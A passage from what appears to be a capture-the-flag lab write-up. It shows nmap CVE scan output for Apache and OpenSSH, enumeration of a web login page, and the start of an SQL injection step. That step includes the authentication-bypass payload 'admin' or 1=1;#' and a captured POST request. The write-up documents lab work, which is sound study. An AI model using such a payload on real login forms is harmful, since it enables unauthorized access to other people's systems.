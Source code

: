 ```
|       CVE-2019-0196   5.0     https://vulners.com/cve/CVE-2019-0196                                                                                                             
|       CVE-2018-17199  5.0     https://vulners.com/cve/CVE-2018-17199                                                                                                            
|       CVE-2018-1333   5.0     https://vulners.com/cve/CVE-2018-1333                                                                                                             
|       CVE-2017-15710  5.0     https://vulners.com/cve/CVE-2017-15710                                                                                                            
|       CVE-2019-0197   4.9     https://vulners.com/cve/CVE-2019-0197                                                                                                             
|       CVE-2019-10092  4.3     https://vulners.com/cve/CVE-2019-10092                                                                                                            
|       CVE-2018-11763  4.3     https://vulners.com/cve/CVE-2018-11763                                                                                                            
|_      CVE-2018-1283   3.5     https://vulners.com/cve/CVE-2018-1283                                                                                                             
                                                                                                                                                                                  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                    
Nmap done: 1 IP address (1 host up) scanned in 101.13 seconds                                                                                                                     
                                                                                                                                                                                  
[+] Summary  
22      ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 
                No vuln found 
80      http    Apache httpd 2.4.29 
                No vuln found
 
```

# Web Service Enumeration
Browsing to [http://10.10.10.185](http://10.10.10.185), had revealed a portfolio page of images, with a hyperlink to 
[login.php](http://10.10.10.185/login.php) at the bottom. Checking for the images' info had revealed the location of
these images to be [http://10.10.10.185/images/uploads/](http://10.10.10.185/images/uploads/), that had returned a *403
Forbidden* error. Checking the source-code of *login.php* had offered no vital clue about the credentials, and so, I
moved on to *SQL Injection*.

# SQL Injection
Checking for SQL injection on the login form through browser had seemed impossible, as the JS did not allow for typing
in spaces. Therefore, *BurpSuite* was fired up and the login request was captured. The username and password fields were
edited to inject SQL as ```username=admin' or 1=1;#&password=admin``` and the final request that had been passed onto 
the target is shown on the section given below.
```shell 
POST /login.php HTTP/1.1
Host: 10.10.10.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:79.0) Gecko/20100101 Firefox/79.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Origin: http://10.10.10.185
Connection: close
Referer: http://10.10.10.185/login.php
```